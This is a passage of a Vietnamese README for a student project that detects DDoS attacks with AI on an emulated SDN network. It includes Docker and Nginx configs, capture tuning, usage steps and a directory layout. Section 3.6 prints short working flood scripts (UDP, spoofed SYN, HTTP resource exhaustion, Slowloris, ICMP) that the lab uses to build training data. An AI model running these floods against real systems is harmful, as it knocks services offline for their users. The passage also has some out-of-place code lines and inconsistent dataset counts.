│  ┌──────────────┐                                               │
│  │   Clients    │                                               │
│  │   (h60-h65)  │                                               │
│  └──────────────┘                                               │
│                                                                  │
└─────────────────────────────────────────────────────────────────┘
```

#### 3.4.2 Dockerfile Configuration (web1)

```dockerfile
# docker/web1/Dockerfile
FROM python:3.9-slim

# Install dependencies
RUN apt-get update && apt-get install -y \
    gcc \
    postgresql-client \
    && rm -rf /var/lib/apt/lists/*

# Set working directory
WORKDIR /app

# Copy requirements
COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt

# Copy Django project
COPY my_web_app/ ./

# Collect static files
RUN python manage.py collectstatic --noinput

# Expose port
EXPOSE 8000

# Run Gunicorn (WSGI server)
CMD ["gunicorn", "--bind", "0.0.0.0:8000", "--workers", "4", "my_web_app.wsgi:application"]
```

**Web1 Stack:**
- **Django 4.2**: Web framework
- **Gunicorn**: WSGI HTTP Server (4 workers)
- **PostgreSQL**: Database (chạy trên db1 container)
- **Attack Endpoints**: `/api/hash_login`, `/api/process_json`

#### 3.4.3 Nginx Proxy Configuration (proxy1)

```nginx
# docker/proxy/nginx.conf
server {
    listen 443 ssl http2;
    server_name 10.0.0.10;
    
    # SSL Certificate (self-signed for testing)
    ssl_certificate /etc/nginx/ssl/nginx.crt;
    ssl_certificate_key /etc/nginx/ssl/nginx.key;
    ssl_protocols TLSv1.3;
    ssl_ciphers HIGH:!aNULL:!MD5;
    
    # Reverse proxy to web1
    location / {
        proxy_pass http://10.0.0.11:8000;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
        
        # Timeout settings
        proxy_connect_timeout 30s;
        proxy_send_timeout 30s;
        proxy_read_timeout 30s;
    }
}

# HTTP redirect to HTTPS
server {
    listen 80;
    server_name 10.0.0.10;
    return 301 https://$server_name$request_uri;
}
```

**Tại sao dùng HTTPS thay vì HTTP:**
1. **Sát thực tế**: 95% web production dùng HTTPS
2. **Tăng độ khó cho AI**: Payload đã mã hóa → AI phải dựa vào metadata (packet size, timing)
3. **Test Encrypted DDoS**: Kiểm tra khả năng phát hiện khi không đọc được content

### 3.5 🚀 Recent Optimizations (Tháng 4/2026)

#### 3.5.1 Tối Ưu Capture Interface: S6-ETH1 Revolution

**🔴 Vấn đề gốc rễ (Root Cause):**
```
Trước khi tối ưu: Sử dụng s6-eth5 (Docker bridge)
├── Filter pass rate: Chỉ 16% (quá thấp!)
├── IP Preservation: ❌ Corrupted by SNAT/NAT
├── Collection speed: 100 samples/min (quá chậm)
├── Phase 0 time: 13+ giờ cho Normal traffic
└── Attack detection: Không chính xác do IP bị modify
```

**💡 Giải pháp: Chuyển sang s6-eth1 (L3 Backbone)**

```
S6-ETH1 - Optimal capture point:
├── Location: Giữa s1 (CORE) ←→ s6 (WEB SERVER SWITCH)
├── Captures: TẤT CẢ traffic đến/từ web server
├── IPs: Preserved (không SNAT/DNAT modification)
├── Flows: Cả REQUEST và RESPONSE directions
├── Filter pass rate: 99.7% 🚀
└── Collection speed: 1700+ samples/min 🔥
```

**📊 Kết quả tối ưu:**

| Metric | Trước (s6-eth5) | Sau (s6-eth1) | Improvement |
|--------|-----------------|---------------|-------------|
| **Filter Pass Rate** | 16% | 99.7% | 6.2x |
| **Collection Speed** | 100/min | 1700+/min | 17x |
| **Phase 0 Time** | 13+ giờ | ~50 phút | 15x |
| **IP Preservation** | ❌ Corrupted | ✅ Original | - |
| **Attack Detection** | ❌ Inaccurate | ✅ 100% accurate | - |

**Tổng speedup: 17x FASTER!** 🚀

#### 3.5.2 Bidirectional Filter Logic

**Vấn đề:** Chỉ capture traffic một chiều (request only) thiếu context để phân loại chính xác.

**Giải pháp:** Thu thập cả REQUEST và RESPONSE flows:

```python
# auto_dataset_generator.py - Bidirectional Filter
class BidirectionalFilter:
    """
    Chỉ giữ lại flows có cả chiều đi và chiều về
    để đảm bảo complete conversation context
    """
    
    def filter_complete_flows(self, flows):
        # Tìm cặp request-response dựa trên 5-tuple
        complete_flows = []
        for flow in flows:
            if self.has_matching_response(flow):
                complete_flows.append(flow)
        return complete_flows
    
    def has_matching_response(self, request_flow):
        # Kiểm tra tồn tại response flow với:
        # - Ngược src/dst IP
        # - Ngược src/dst port
        # - Cùng protocol
        pass
```

#### 3.5.3 Auto-Detection Interface Chain

**Tự động phát hiện và fallback:**

```python
# ai/batPack.py - Auto-detection logic
PREFERRED_INTERFACE = "s6-eth1"
FALLBACK_INTERFACES = ["s6-eth4", "h82-eth1", "any"]

def detect_interface():
    """
    Tự động chọn interface tốt nhất available
    Thứ tự: s6-eth1 → s6-eth4 → h82-eth1 → any
    """
    for iface in [PREFERRED_INTERFACE] + FALLBACK_INTERFACES:
        if interface_exists(iface):
            return iface
    return PREFERRED_INTERFACE  # Default
```

**Implementation trong các file:**
- `ai/batPack.py`: Auto-detection với fallback chain
- `ai/nfstream_inspector.py`: Real-time monitoring với s6-eth1
- `ai/interface_diagnostic.py`: Verification tool

#### 3.5.4 Unified Metrics Architecture (AI + Dashboard)

**Trước khi tối ưu (Phân tán):**
```
batPack_v2.py → zeek_stream.json → AI Engine (IDS)
     ↓
  [Separate collector cho Dashboard] → metrics.json
```

**Sau khi tối ưu (Unified):**
```
batPack_v2.py → zeek_stream.json → AI Engine (IDS)
     ↓
  unified_metrics.json → Dashboard Server
```

```python
# ai/batPack_v2.py - FlowStatsTracker
class FlowStatsTracker:
    """
    Thu thập flow stats và mitigation stats cho cả AI và Dashboard
    """
    def build_metrics(self):
        # Tính toán metrics từ flow data
        metrics = {
            'timestamp': time.time(),
            'raw_incoming_mbps': self.raw_incoming_mbps,
            'effective_mbps': self.effective_mbps,
            'mitigated_mbps': self.mitigated_mbps,
            'protection_ratio_percent': protection_ratio,
            'active_blocks': len(self.drop_ips),
            'drop_ips': list(self.drop_ips),
            'rate_limit_ips': list(self.rate_limit_ips)
        }
        # Ghi vào unified_metrics.json cho Dashboard
        with open(UNIFIED_METRICS_FILE, 'w') as f:
            json.dump(metrics, f)
```

**Dashboard sử dụng unified metrics:**
```python
# dashboard/server.py
UNIFIED_METRICS_FILE = Path(RUNTIME) / "unified_metrics.json"

if path == "/api/onos":
    # [UNIFIED] Chỉ đọc từ batPack_v2 unified metrics
    if UNIFIED_METRICS_FILE.exists():
        data = json.loads(UNIFIED_METRICS_FILE.read_text())
        status = "online"
```

---

### 3.6 Attack Scripts (5 Loại Tấn Công)

**Lưu ý:** 4 loại chính (UDP, SYN, HTTP, Slowloris) được dùng để training AI.  
ICMP Flood là loại bổ sung cho demo (không có trong training dataset) để thể hiện khả năng phát hiện tấn công lạ qua Zero-Day detection.

#### 3.6.1 UDP Flood (`attack/udp_flood.py`)

**Cơ chế:** Gửi hàng loạt UDP packets với payload lớn để nghẽn băng thông.

```python
import socket
import random
import threading

def udp_flood_worker(target_ip, target_port, packet_size=1024):
    """Worker thread gửi UDP packets liên tục"""
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    
    # Random payload để tránh caching
    payload = random._urandom(packet_size)
    
    while True:
        try:
            # Gửi đến port ngẫu nhiên (tăng entropy)
            port = random.randint(1, 65535) if target_port == 0 else target_port
            sock.sendto(payload, (target_ip, port))
        except:
            pass

# Multi-threading để tăng bandwidth
for _ in range(10):  # 10 threads
    threading.Thread(target=udp_flood_worker, args=(target_ip, 0)).start()
```

**Signature đặc trưng:**
- Packet rate: 10,000+ packets/sec
- Byte rate: 50+ MB/s
- Unidirectional (UDP không cần response)
- Port ngẫu nhiên (high entropy)

#### 3.6.2 SYN Flood (`attack/syn_flood.py`)

**Cơ chế:** Gửi SYN packets nhưng không hoàn thành handshake → Cạn kiệt connection table.

```python
from scapy.all import IP, TCP, send
import random

def syn_flood_scapy(target_ip, target_port):
    """SYN Flood với IP spoofing"""
    while True:
        # Spoof source IP để tránh bị block
        src_ip = f"10.0.{random.randint(1,255)}.{random.randint(1,255)}"
        src_port = random.randint(1024, 65535)
        
        # Tạo SYN packet
        ip_layer = IP(src=src_ip, dst=target_ip)
        tcp_layer = TCP(sport=src_port, dport=target_port, flags="S")
        
        # Gửi (loop để tốc độ cao)
        send(ip_layer/tcp_layer, verbose=0, loop=0)
```

**Signature đặc trưng:**
- Conn_State: "S0" (half-open)
- High asymmetry: Nhiều gói gửi, 0 gói nhận
- IP spoofing: Source IP ngẫu nhiên

#### 3.6.3 HTTP Flood (`attack/http_flood.py`)

**Cơ chế:** Gửi hàng loạt HTTP requests để tiêu tốn CPU/RAM server.

```python
import requests
import threading
import random

def http_flood_worker(target_url, attack_type="hash"):
    """HTTP Flood với 2 chế độ: Hash exhaustion hoặc JSON parsing"""
    
    while True:
        try:
            if attack_type == "hash":
                # Đánh vào CPU: Yêu cầu hash 100K ký tự
                payload = {'username': 'A' * 100000}
                requests.post(f"{target_url}/api/hash_login", 
                            data=payload, timeout=3)
                
            elif attack_type == "json":
                # Đánh vào RAM: Parse JSON lồng nhau sâu
                payload = {'data': {'nested': {'recursive': {...}}}}
                requests.post(f"{target_url}/api/process_json",
                            json=payload, timeout=3)
                              
        except:
            pass  # Tiếp tục ngay cả khi timeout

# Chạy 50 threads đồng thời
for _ in range(50):
    threading.Thread(target=http_flood_worker, args=(target_url, "hash")).start()
```

**Signature đặc trưng:**
- L7_Protocol: "HTTP"
- Packet rate: 100-500/s (thấp hơn UDP nhưng liên tục)
- Duration: Ngắn (0.1s per request)
- Pattern: Repeated POST/GET

#### 3.6.4 Slowloris (`attack/slowloris.py`)

**Cơ chế:** Mở nhiều connections nhưng gửi dữ liệu rất chậm → Chiếm worker threads.

```python
import socket
import time
import random

def slowloris_worker(target_host, target_port):
    """Giữ connection sống bằng cách gửi headers từ từ"""
    
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(30)
        sock.connect((target_host, target_port))
        
        # Gửi partial HTTP request
        sock.send(f"GET / HTTP/1.1\r\nHost: {target_host}\r\n".encode())
        
        # Giữ connection bằng cách gửi headers từ từ
        while True:
            time.sleep(10)  # Chờ 10 giây giữa mỗi header
            header = f"X-{random.randint(1,9999)}: {random.randint(1,9999)}\r\n"
            sock.send(header.encode())
            
    except:
        pass  # Reconnect nếu bị đóng

# Mở 150 connections đồng thời
for _ in range(150):
    threading.Thread(target=slowloris_worker, args=(target_host, 80)).start()
```

**Signature đặc trưng:**
- Duration: 30-120s (rất dài)
- Packet rate: 1-5/s (rất thấp)
- Byte rate: <1KB/s (stealth)
- Conn_State: "ESTABLISHED" kéo dài
- **Khó phát hiện** vì giống normal browsing chậm

#### 3.6.5 ICMP Flood (`attack/icmp_flood.py`) - 🆕 ZERO-DAY DEMO

**Cơ chế:** Gửi hàng loạt ICMP Echo Request (ping) với payload lớn để flood băng thông.

```python
import socket
import random
import os

# Yêu cầu sudo để tạo raw socket
sock = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_ICMP)

def create_icmp_packet(payload_size):
    icmp_type = 8  # Echo Request
    icmp_code = 0
    icmp_id = random.randint(0, 65535)
    payload = random.randbytes(payload_size)
    header = bytes([icmp_type, icmp_code, 0x00, 0x00]) + \
             icmp_id.to_bytes(2, 'big') + bytes(2)  # seq
    return header + payload

while True:
    packet = create_icmp_packet(1400)
    sock.sendto(packet, (target_ip, 0))
```

**Signature đặc trưng:**
- **Protocol:** ICMP (Layer 3)
- **Packet size:** Lớn (64-1400 bytes)
- **Type:** 8 (Echo Request) - "Ping flood"
- **Đặc biệt:** Không có port (ICMP là Layer 3)
- **Yêu cầu:** Root/sudo (raw socket)

**🎯 Mục đích demo Zero-Day:**
> ICMP Flood **KHÔNG** có trong training dataset (V7 chỉ train 4 loại: UDP, SYN, HTTP, Slowloris).
> 
> Khi chạy ICMP Flood, AI sẽ:
> 1. **Shield 1 (Autoencoder):** Phát hiện bất thường (MSE cao) ✅
> 2. **Shield 2 (Classifier):** Không nhận diện được (chưa từng thấy) ❓
> 3. **Kết luận:** **ZERO-DAY** - Chặn ngay lập tức!
>
> Điều này chứng minh khả năng phát hiện tấn công mới chưa từng thấy (Unknown Attack).

---

### 3.7 Normal Traffic Simulation (`traffic/normal.py`)

#### 3.7.1 Mô Phỏng Người Dùng Thật

Không chỉ tấn công, hệ thống còn mô phỏng **user behavior thực tế** để tạo baseline:

```python
def normal_traffic_worker(target_url):
    """
    Mô phỏng user browsing với:
    - Random User-Agent (Chrome, Firefox, Edge, Safari)
    - Think time 3-8 giây (giống người thật đọc trang)
    - Click random links
    - Xử lý HTTPS certificate warnings
    """
    import requests
    import time
    import random
    
    user_agents = [
        "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36",
        "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36"
    ]
    
    while True:
        try:
            headers = {'User-Agent': random.choice(user_agents)}
            
            # 1. GET request
            response = requests.get(target_url, headers=headers, 
                                   timeout=5, verify=False)
            
            # 2. Think time (giống người dùng đọc trang)
            think_time = random.uniform(3.0, 8.0)
            time.sleep(think_time)
            
            # 3. Click random link (nếu có)
            if random.random() > 0.7:  # 30% click tiếp
                next_page = random.choice(['/about', '/contact', '/login'])
                requests.get(f"{target_url}{next_page}", headers=headers,
                           timeout=5, verify=False)
                
        except:
            time.sleep(random.uniform(1.0, 3.0))  # Lỗi thì chờ rồi retry
```

**Behavioral Patterns:**
| Hành vi | Tham số | Giá trị | Mục đích |
|---------|---------|---------|----------|
| Think time | `random.uniform(3, 8)` | 3-8 giây | Giống người đọc trang |
| User-Agent | Random choice | 3 browsers | Tránh detection đơn giản |
| Click rate | `random.random() > 0.7` | 30% | Không phải lúc nào cũng click |
| Timeout | `timeout=5` | 5 giây | Giống người kiên nhẫn |
| Retry delay | `sleep(1-3)` | 1-3 giây | Tự nhiên khi gặp lỗi |

#### 3.7.2 Dataset Balance

Tỷ lệ **1:1 giữa Normal và Attack** trong dataset v7:
```
master_dataset_v7.csv:
├── Normal:     200,000 samples (40%)
├── UDP Flood:   80,000 samples (16%)
├── SYN Flood:   80,000 samples (16%)
├── HTTP Flood:  80,000 samples (16%)
└── Slowloris:   60,000 samples (12%) ← Ít hơn vì khó thu thập

Total: ~500,000 sequences (10 flows/sequence)
```

#### 3.7.3 XAI - Explainable AI

**Giải thích quyết định dựa trên Attention Weights:**
```python
class SDN_XAI_Explainer_Advanced:
    def explain_attack(self, tensor, temporal_attn, spatial_weights, pred_idx):
        """
        Trích xuất lý do phát hiện tấn công:
        1. Temporal: Flow nào trong chuỗi 10 flow bất thường nhất?
        2. Spatial: Đặc trưng nào đóng góp nhiều nhất?
        """
        # Top 3 flows có attention weight cao nhất
        top_flows = torch.topk(temporal_attn, k=3)
        
        # Top 3 features có spatial weight cao nhất
        top_features = torch.topk(spatial_weights, k=3)
        
        return {
            "explanation_text": f"""
            ⚠️ PHÁT HIỆN: {LABEL_NAMES[pred_idx]}
            
            🔍 Top 3 flows bất thường: {top_flows.indices.tolist()}
            📊 Top 3 đặc trưng quan trọng:
               1. {FEATURE_NAMES[top_features.indices[0]]}: {top_features.values[0]:.2%}
               2. {FEATURE_NAMES[top_features.indices[1]]}: {top_features.values[1]:.2%}
               3. {FEATURE_NAMES[top_features.indices[2]]}: {top_features.values[2]:.2%}
            """,
            "temporal_attention": temporal_attn,
            "spatial_attention": spatial_weights
        }
```
    if is_zero_day: self.stats["zero_day"] += 1
    
    self.log_attack_panel(src_ip, attack_name, confidence, "DROP", "red")

def apply_rate_limit(self, src_ip):
    """[LEVEL 1 MITIGATION] Giới hạn băng thông (1Mbps) via ONOS"""
    # [FIX] Dùng ONOS REST API thay vì ovs-ofctl
    SDNControllerV2.push_flow_rule(src_ip, treatment_type="RATE_LIMIT")
```

---

## 4. Tech Stack

### Tầng 1: Network Simulation & Control

| Công Nghệ | Vai Trò | Tại Sao |
|-----------|---------|---------|
| **Mininet** | Mô phỏng SDN topology | Testbed lightweight, không cần hardware |
| **Containernet** | Thêm Docker containers | Chạy web server, proxy, database thực tế |
| **ONOS** | SDN Controller | OpenFlow management, REST API |
| **OVS** | Lớp dataplane | RFC-compliant, production-grade |

### Tầng 2: Data Collection & Processing

| Công Nghệ | Vai Trò | Tại Sao |
|-----------|---------|---------|
| **NFStream** | Flow extraction | Nhanh, lightweight, streaming |
| **Python socket** | Packet capture | Direct control, custom filtering |
| **JSON (FIFO)** | IPC với trainer | Real-time data pipeline |
| **Pandas & NumPy** | Data manipulation | Fast matrix ops, statistical analysis |

### Tầng 3: Deep Learning & AI

| Công Nghệ | Vai Trò | Tại Sao |
|-----------|---------|---------|
| **PyTorch** | Neural networks | Dynamic graphs, GPU support |
| **Contrastive Learning** | Autoencoder training | Separate Normal/Attack representations |
| **CNN (Multi-scale)** | Spatial pattern | Detect feature anomalies |
| **Bi-GRU** | Temporal pattern | Detect sequence anomalies |
| **Attention Mechanisms** | Feature weighting | Explain which features matter |

### Tầng 4: System & Operations

| Công Nghệ | Vai Trò | Tại Sao |
|-----------|---------|---------|
| **Threading** | Parallel monitoring | GC + Main loop without blocking |
| **FIFO (Named Pipes)** | Inter-process communication | Low-latency data streaming |
| **Joblib** | Model serialization | Save scaler, threshold, weights |
| **psutil** | System monitoring | Memory tracking for GC |
| **Rich** | Terminal UI | Beautiful progress display |

---

## 5. Hướng Dẫn Sử Dụng

### 5.1 Chế Độ Thu Thập Dataset

```bash
# Terminal 1: Chạy Mininet topology
cd /home/tgf/Documents/DoAn_SDN
sudo python3 mininet/topology.py

# Terminal 2: Chạy Auto Dataset Generator
cd /home/tgf/Documents/DoAn_SDN/ai
sudo python3 auto_dataset_generator.py

# Terminal 3: Chạy batPack (Dataset Mode - tự động detect markers)
cd /home/tgf/Documents/DoAn_SDN/ai
sudo python3 batPack_v2.py
```

### 5.2 Chế Độ IDS/Demo (Real-time)

```bash
# Terminal 1: Chạy Mininet (đã chạy)

# Terminal 2: Chạy IDS Engine
cd /home/tgf/Documents/DoAn_SDN/ai
sudo python3 run_onos_v2.py

# Terminal 3: Chạy batPack với --ids (không cần marker)
cd /home/tgf/Documents/DoAn_SDN/ai
sudo python3 batPack_v2.py --ids

# Terminal 1: Tạo traffic test
py [net.get(f'h{i}').cmd('python3 traffic/normal.py http://10.0.0.10:8000 &') for i in range(60, 66)]
```

### 5.3 Cấu Trúc Thư Mục

```
DoAn_SDN/
├── ai/                          # AI Engine & IDS (51 items)
│   ├── batPack_v2.py           # Data collector (NFStream) - Tối ưu s6-eth1
│   ├── batPack_v3.py           # Phiên bản V8 (timeout tối ưu)
│   ├── run_onos_v2.py          # Real-time IDS engine
│   ├── train_colab_v2.py       # Training pipeline
│   ├── config_v2.py            # Model architectures & configs
│   ├── interface_diagnostic.py # Tool kiểm tra interface capture
│   ├── nfstream_inspector.py   # Real-time flow inspection
│   ├── flow_monitor.py         # Monitoring tool
│   ├── ai_monitor.py           # AI performance monitor
│   ├── benchmark_report.py     # Performance benchmark
│   ├── zeek_stream.json        # FIFO normal traffic (FIFO)
│   ├── zeek_stream_slowloris.json # FIFO slowloris traffic (FIFO)
│   ├── sdn_autoencoder_contrastive.pth  # Shield 1 model
│   ├── sdn_model_parallel_fusion.pth    # Shield 2 model
│   ├── ae_threshold.pkl        # Autoencoder threshold
│   ├── feature_weights.pkl     # Feature importance weights
│   └── models/                 # Saved models
├── thuThapData/                # Dataset management
│   ├── auto_dataset_generator.py  # Dataset generator + bidirectional filter
│   ├── batPack123.py           # Optimized capture for s6-eth1
│   ├── check_data.py           # Dataset validation & analysis
│   ├── debug_traffic.py        # Traffic debugging tool
│   ├── master_dataset_v6.csv   # Dataset V6 (36M samples)
│   └── master_dataset_v7.csv   # Dataset V7 (final - 600k samples)
├── dashboard/                  # Real-time monitoring dashboard
│   ├── server.py               # HTTP server (unified metrics)
│   └── static/                 # HTML/JS frontend
├── attack/                       # Attack scripts
│   ├── udp_flood.py
│   ├── syn_flood.py
│   ├── http_flood.py
│   ├── slowloris.py
│   ├── icmp_flood.py           # 🆕 Zero-day demo (Layer 3)
│   └── rudy.py
├── traffic/                      # Normal traffic simulation
│   ├── normal.py               # Human-like browsing behavior
│   └── keep_alive.py           # Connection keep-alive
├── topology/                     # Network topology
│   └── topology.py             # L3 SDN topology definition
├── services/                     # Docker services
│   ├── docker-compose.yml
│   └── nginx/                  # Web server config
├── data_collection_orchestrator.py  # 🆕 Orchestrator tự động thu thập data
├── ids_onos_integration.py     # 🆕 IDS + ONOS integration module
├── system.py                   # Main system controller
├── KEHOACH_DATASET_V8.md       # 🆕 Kế hoạch Dataset V8
├── OPTIMIZATION_COMPLETE.txt   # 🆕 Báo cáo tối ưu s6-eth1
├── QUICK_START_COLLECTION.sh   # 🆕 Script khởi động nhanh
├── note.txt                    # Ghi chú kỹ thuật & commands
└── README.md                   # Tài liệu này
```

**Key Files Mới (Recent Additions):**

| File | Mục đích | Thời điểm thêm |
|------|----------|----------------|
| `data_collection_orchestrator.py` | Tự động hóa 5 phases thu thập data | Tháng 4/2026 |
| `batPack123.py` | Phiên bản tối ưu cho s6-eth1 (17x speedup) | Tháng 4/2026 |
| `interface_diagnostic.py` | Kiểm tra interface trước khi capture | Tháng 4/2026 |
| `ids_onos_integration.py` | Module tích hợp IDS + ONOS controller | Tháng 4/2026 |
| `OPTIMIZATION_COMPLETE.txt` | Báo cáo chi tiết quá trình tối ưu | Tháng 4/2026 |

---

## 6. Kết Luận & Bài Học

### ✅ Những Điểm Mạnh của Hệ Thống V4

| Đặc điểm | Mô tả |
|----------|-------|
| **Robustness** | Xử lý IP spoofing, Flash Crowd, Zero-day |
| **Explainability** | XAI module giải thích từng dự đoán (Temporal + Spatial Attention) |
| **Scalability** | Garbage collector quản lý RAM, adaptive threshold thích ứng |
| **Accuracy** | 96% trên dataset local, false positive < 1% |
| **Dual-Shield** | 2-Shield Architecture (Autoencoder + Classifier) với Veto Power |
| **Parallel Fusion** | CNN và GRU xử lý song song (không tuần tự) |
| **Multi-Scale CNN** | Kernel 3 (local) + Kernel 5 (context) với Residual Connections |
| **White/Black List** | Cơ chế bảo vệ IP tin cậy và chặn attacker lặp lại |
| **Honeypot** | Decoy IP 10.0.0.201 để thu hút và phân tích attacker |
| **Feedback Loop** | Lưu potential false positives để cải thiện mô hình |
| **Persistence** | Checkpoint & Recovery sau restart |
| **Real-time** | Latency ~50ms/flow trên CPU |

### ⚠️ Challenges Vẫn Còn

| Challenge | Mô tả |
|-----------|-------|
| **Poisoning Attacks** | Attacker có thể gửi legitimate-looking data để poison training |
| **Evasion** | Attacker học được model → thiết kế attack để bypass |
| **Latency** | Real-time inference phải < 100ms/flow (V4 ≈ 50ms) |

### 📚 Những Bài Học Quốc Toàn

| Giai Đoạn | Sai Lầm | Bài Học |
|-----------|---------|---------|
| **V1** | Dùng dataset công cộng | ❌ Dataset phải từ target domain |
| **V2** | Giữ port number | ❌ Port thay đổi ngẫu nhiên → dùng Entropy |
| **V3** | Autoencoder đơn giản | ❌ Cần Spatial + Temporal (CNN-GRU) |
| **V4** | Threshold tĩnh | ✅ EMA adaptive + Veto power |

---

## 6.5 🔄 Quá Trình Chuyển Đổi: Từ ONOS L2 → Mạng L3 Tự Động

### 6.5.1 Giai Đoạn Đầu: ONOS với Mạng L2 (Layer 2 Switching)

**Bối cảnh ban đầu:**
Khi mới bắt đầu tìm hiểu về SDN, tôi bắt đầu với **ONOS (Open Network Operating System)** và cấu hình mạng theo mô hình **L2 (Layer 2 - Data Link Layer)**. Đây là cách tiếp cận truyền thống và phổ biến trong các lab học thuật.

```
┌─────────────────────────────────────────────────────────┐
│           🌐 MÔ HÌNH MẠNG L2 BAN ĐẦU                    │
├─────────────────────────────────────────────────────────┤
│                                                         │
│   ONOS Controller                                       │
│   ├─ GUI Web Interface (localhost:8181/onos/ui)          │
│   ├─ Flow Rules: L2 MAC-based forwarding                 │
│   └─ Visual Topology: Icon switches, links, hosts        │
│                                                         │
│   Mininet Topology                                      │
│   ├─ s1, s2, s3 (Open vSwitch)                          │
│   ├─ Hosts: h1, h2, h3 (same subnet 10.0.0.0/24)        │
│   └─ Pingall: L2 connectivity test                      │
│                                                         │
│   Cấu hình thủ công qua GUI:                            │
│   • Click icon switch → Add flow rule                   │
│   • Match: src_mac, dst_mac, eth_type                   │
│   • Action: OUTPUT port                                 │
│   • Visual feedback: Green/red link status              │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

**Quá trình tự tìm tòi học hỏi:**

```python
"""
Giai đoạn đầu - Tự mày mò với ONOS L2:

1. Cài đặt ONOS trên Ubuntu:
   - Download ONOS 2.7.0 từ GitHub
   - Build bằng Maven (môi trường Java)
   - Chạy với karaf shell

2. Khám phá GUI:
   - Truy cập http://localhost:8181/onos/ui
   - Login: onos/onos
   - Xem topology: Các icon switch, host, link
   - Click để xem chi tiết flow table

3. Tự tạo flow rules L2:
   - MAC learning: Tự động học MAC → port mapping
   - Flooding: Broadcast khi chưa biết destination
   - VLAN tagging: Phân chia broadcast domain

4. Vấn đề gặp phải:
   - Mỗi lần thêm host mới phải cấu hình thủ công
   - Không có khái niệm subnet/routing
   - Tất cả hosts trong cùng broadcast domain
   - Không scalable khi có nhiều subnet khác nhau
"""
```

**Hạn chế của mô hình L2:**

| Vấn đề | Mô tả | Hệ quả |
|--------|-------|--------|
| **Flat Network** | Tất cả hosts cùng subnet | Broadcast storm khi scale lên |
| **MAC-based** | Forwarding dựa trên MAC address | Table overflow (65K MAC addresses) |
| **Manual Config** | Thêm flow rule bằng tay qua GUI | Không tự động, error-prone |
| **No Routing** | Không có IP routing | Không phân tách attacker/victim subnets |
| **Limited Scale** | Chỉ phù hợp lab nhỏ | Không thể mô phỏng doanh nghiệp thực tế |

### 6.5.2 Bước Ngoặt: Tìm Hiểu Mô Hình Google và Các Cloud Provider

**Nghiên cứu về Google Cloud Networking:**

Tôi nghiên cứu cách Google và các cloud provider lớn (AWS, Azure) thiết kế network:

```
┌─────────────────────────────────────────────────────────────┐
│           🏢 MÔ HÌNH NETWORK CỦA GOOGLE/AWS                  │
├─────────────────────────────────────────────────────────────┤
│                                                              │
│  ┌──────────────────────────────────────────────────────┐  │
│  │              SOFTWARE-DEFINED NETWORK (SDN)           │  │
│  │  ┌─────────────┐  ┌─────────────┐  ┌─────────────┐   │  │
│  │  │   Zone A    │  │   Zone B    │  │   Zone C    │   │  │
│  │  │  us-east1   │  │  us-west1   │  │ europe-west1│   │  │
│  │  │ 10.0.0.0/16 │  │ 10.1.0.0/16 │  │ 10.2.0.0/16 │   │  │
│  │  │             │  │             │  │             │   │  │
│  │  │  ┌───────┐  │  │  ┌───────┐  │  │  ┌───────┐  │   │  │
│  │  │  │Web Tier│  │  │  │Web Tier│  │  │  │Web Tier│  │   │  │
│  │  │  │10.0.1.0│  │  │  │10.1.1.0│  │  │  │10.2.1.0│  │   │  │
│  │  │  └───────┘  │  │  └───────┘  │  │  └───────┘  │   │  │
│  │  │  ┌───────┐  │  │  ┌───────┐  │  │  ┌───────┐  │   │  │
│  │  │  │App Tier│  │  │  │App Tier│  │  │  │App Tier│  │   │  │
│  │  │  │10.0.2.0│  │  │  │10.1.2.0│  │  │  │10.2.2.0│  │   │  │
│  │  │  └───────┘  │  │  └───────┘  │  │  └───────┘  │   │  │
│  │  │  ┌───────┐  │  │  ┌───────┐  │  │  ┌───────┐  │   │  │
│  │  │  │DB Tier │  │  │  │DB Tier │  │  │  │DB Tier │  │   │  │
│  │  │  │10.0.3.0│  │  │  │10.1.3.0│  │  │  │10.2.3.0│  │   │  │
│  │  │  └───────┘  │  │  └───────┘  │  │  └───────┘  │   │  │
│  │  └─────────────┘  └─────────────┘  └─────────────┘   │  │
│  │                                                        │  │
│  │  L3 Routing: Automatic, Distributed, Scalable           │  │
│  │  • Inter-subnet routing tự động                        │  │
│  │  • BGP/OSPF phân tán                                  │  │
│  │  • VPC (Virtual Private Cloud) isolation               │  │
│  └──────────────────────────────────────────────────────┘  │
│                                                              │
│  🔑 Đặc điểm chính:                                          │
│  • L3 routing tự động thay vì L2 flooding                   │
│  • Subnet isolation (DMZ, Internal, Database zones)         │
│  • Software-defined (programmable via API)                  │
│  • Micro-segmentation (mỗi service 1 subnet)                │
│                                                              │
└─────────────────────────────────────────────────────────────┘
```

**Những gì tôi học được từ Google/AWS:**

```python
"""
BÀI HỌC TỪ CÁC CLOUD PROVIDER:

1. LAYER 3 ROUTING là MUST-HAVE:
   - Google VPC: Mỗi subnet là 1 /24 hoặc /16
   - Tự động routing giữa các subnet trong cùng VPC
   - Không dùng L2 broadcast giữa các zones

2. NETWORK SEGMENTATION:
   - Public Subnet: Load balancers, proxy (DMZ)
   - Private Subnet: Application servers
   - Secure Subnet: Databases (no internet access)
   - Management Subnet: Admin access only

3. SOFTWARE-DEFINED = PROGRAMMABLE:
   - Không click GUI để cấu hình
   - Terraform/Cloud API để tự động hóa
   - Infrastructure as Code (IaC)

4. MICRO-SEGMENTATION:
   - Không phải "tất cả web server trong 1 subnet"
   - Mỗi tier (web/app/db) = subnet riêng
   - Firewall rules giữa các tier

5. OBSERVABILITY:
   - Flow logs để audit
   - VPC Flow Logs → BigQuery analysis
   - Cloud Monitoring/CloudWatch
"""
```

### 6.5.3 Chuyển Sang Mạng L3 Tự Động (Production-Grade)

**Quyết định tái thiết kế:**

Tôi nhận ra mô hình L2 không đủ cho:
- ✅ Mô phỏng doanh nghiệp thực tế
- ✅ Phân tách attacker/victim subnets rõ ràng
- ✅ Tự động hóa cấu hình (không click GUI)
- ✅ Scalability với nhiều segments

**Thiết kế mới - Mô hình L3:**

```python
"""
